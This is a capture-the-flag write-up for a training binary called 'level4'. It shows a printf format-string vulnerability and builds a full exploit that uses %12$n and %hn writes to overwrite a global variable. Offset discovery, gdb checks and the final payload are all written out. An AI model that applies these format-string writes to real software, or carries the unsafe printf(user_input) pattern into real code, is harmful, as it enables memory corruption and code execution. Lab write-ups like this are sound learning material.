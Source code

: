# Write large data

Printf Vulnerability

## Context

Same as level 3, we have a printf vulnerability.

```c
void p(char *param_1)
{
  printf(param_1);
  return;
}
```

And we try to modifie again the global variable `m`, store int .bss section.

```bash
objdump -D level4 | grep -A 2 '<m>'                                                                      (main✱) 
08049810 <m>:
 8049810:	00 00                	add    %al,(%eax)
```

## Offset of the buffer

```bash
$> ./level4                                                                                                 (main✱) 
AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAAf7f76f84.ffa7b7d0.f7e26000.ffa7b864.f7f9ab80.ffa7b798.804848d.ffa7b590.200.f7e26620.0.41414141.252e7825.78252e78

$> ./level4                                                                                                 (main✱) 
AAAA%12$x
AAAA41414141
```

We can conclued, the buffer is stored a the 12th addresses on our stack `%12$x`.

## Verification

Lets try write data inside to be sure it work : 

```c
gef➤  r < <(python3 -c 'import sys; sys.stdout.buffer.write(b"\x10\x98\x04\x08" + b"%12$n")')

    0x804848d <n+54>           mov    eax, ds:0x8049810
 →  0x8048492 <n+59>           cmp    eax, 0x1025544

$eax   : 0x4       
```

As we can see, i print $eax, the register where is store the value of <m>, and i well modifie it (0x4 instead of 0x0).

## Write larger data

In asm we see that the program compare $eax with 0x1025544 which equal 16930116 in decimal.

It will take a day if we decide print the padding with this value, we can eazely split the value.

### Theory

We have this value 0x01025544 which is store in 4 byte.

There is a technique to print data in 2 byte with printf(): `%hn` (h for half).

So let's focus first 0x0000(2 bytes) store at the address 08049810 then last 0x0000 08049810 + 2, fill them with respectively 0x5544 and 0x0102 (little endian). 


### Exploit

To sum up : 

```py
0x0102 = 258(in decimal) -> 08049810 + 2 + 08049812
0x5544 = 21828(in decimal) -> 08049810
```

To adjust the padding, we can follow this rule : 

`padding = [The value we want] - [The bytes alredy wrote] = [The value to set].`

High order first cause the value is lower:

High order 258 - 8 = 250 (both addresses are 4 bytes)

Low order 21828 - 258 = 21570

So final exploit is : 

```py
python2.7 -c 'import sys; sys.stdout.write(b"\x10\x98\x04\x08" + b"\x12\x98\x04\x08" + b"%250x" + b"%13$hn" + b"%21570x" + b"%12$hn")' | ./level4
```

- `b"\x10\x98\x04\x08"` is the first address.
- `b"\x12\x98\x04\x08"` is the second address.

so `%12$x` point to first address and `%13$x` to the second.

- `b"%250x"` is the first padding (remember 250 + 8 byte address = 258 = 0x102)
- `b"%13$hn"` we store 258 inside the second address because its little endian.
- `b"%21570x"` is the second padding (0x5544 - 0x102)
- `b"%12$hn"` is the first address, we store the value.

Bingo, `\x10\x98\x04\x08` point to 0x1025544 !